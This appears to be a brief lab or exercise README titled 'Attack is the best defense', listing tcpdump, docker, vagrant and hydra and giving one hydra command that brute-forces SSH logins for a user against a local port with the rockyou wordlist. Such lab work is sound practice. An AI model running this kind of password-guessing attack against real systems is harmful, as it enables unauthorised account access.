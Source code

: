 # Attack is the best defense
### I made use of tcpdump, docker, vagrant & hydra
### I used the following command 
#### [```sudo hydra -l sylvain -P /vagrant/rockyou.txt ssh://127.0.0.1:2222 -t 4```]
